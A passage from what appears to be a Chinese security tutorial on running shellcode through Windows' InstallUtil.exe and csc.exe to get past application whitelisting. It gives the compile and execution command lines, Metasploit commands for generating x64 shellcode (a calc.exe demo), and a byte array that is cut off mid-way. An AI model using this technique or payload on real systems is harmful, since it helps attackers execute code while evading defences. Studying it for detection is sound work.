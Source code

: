 替换Shellcode.cs中的byte[] shellcode

使用.net 2.0中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/506e463d2c78a152522e16069ca8fdd7996ba6ed.jpg)

360成功查杀，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/96aa0e6cd8c73a7f2d39db1fb1a928d988a1db28.jpg)

2、win7 x64
----------

默认.net环境

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/2148c05ede26b5d8896b72341009a71a39c9e312.jpg)

**（1）**利用InstallUtil.exe执行pe文件

.net 3.5无法成功编译PELoader.cs

**（2）**利用InstallUtil.exe直接执行shellcode

通过msf生成64位shellcode

```
use windows/x64/exec
set CMD calc.exe
set EXITFUNC thread
generate -t csharp

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/b97cef10ee89e862bed208ef395e7a5b14a2244e.jpg)

```
byte[] buf = new byte[276] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
```